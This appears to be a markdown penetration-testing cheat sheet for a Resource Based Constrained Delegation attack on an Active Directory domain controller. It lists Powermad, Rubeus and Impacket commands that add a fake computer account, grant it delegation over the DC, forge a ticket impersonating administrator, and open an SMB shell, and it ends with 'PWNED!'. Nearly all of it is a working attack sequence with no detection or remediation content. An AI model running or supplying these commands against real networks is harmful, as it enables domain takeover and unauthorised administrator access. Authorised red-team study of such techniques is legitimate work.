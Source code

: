 ## Resource Based Constrained Delegation (RBCD)

## TOOLS: Bloodhound, Powermad, Powerview, Kekeo, Impacket, AD powershell module

### Requirements: Your current user belongs to a group that has write access/generic all privileges on the DC.

### STEPS:

#### 1) Transfer rubeus and powermad on target machine

#### 2) Import-Module ./powermad.ps1 (Import powermad)

#### 3) Import-Module ActiveDirectory

#### 4) Set-Variable -Name "PwnPC" -Value "PWN01"

#### Set-Variable -Name "targetComputer" -Value "DC" (Set variables)

#### 5) New-MachineAccount -MachineAccount (Get-Variable -Name "PwnPC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose ( With powermad, add the new fake computer object to AD)

#### 6) Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "PwnPC").Value + '$') (With built-in AD modules, give the new fake computer object the Constrained Delegation privilege)

#### 7) Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount (With built-in AD modules, check that the last command worked)

#### 8) .\rubeus.exe hash /password:123456 /user:PWN01$ /domain:DOMAIN.LOCAL (With Rubeus, generate the new fake computer object password hashes.)

#### 9) Impacket-getST DOMAIN.LOCAL/PWN01 -dc-ip DC.DOMAIN.LOCAL -impersonate administrator -spn http://DC.DOMAIN.LOCAL -aesKey GENERATED_AESKEY (Using the getST impacket module, generate a ccached TGT and used KERB5CCNAME pass the ccache file for the requested service)

#### 10) export KRB5CCNAME=administrator.ccache (Set local variable of KERB5CCNAME to pass the ccache TGT file for the requested service)

#### 11) impacket-smbexec DOMAIN.LOCAL/administrator@DC.DOMAIN.LOCAL -no-pass -k (Use smbexec impacket module to connect with the TGT we just made to the server as the user administrator over SMB)

#### 12) PWNED!
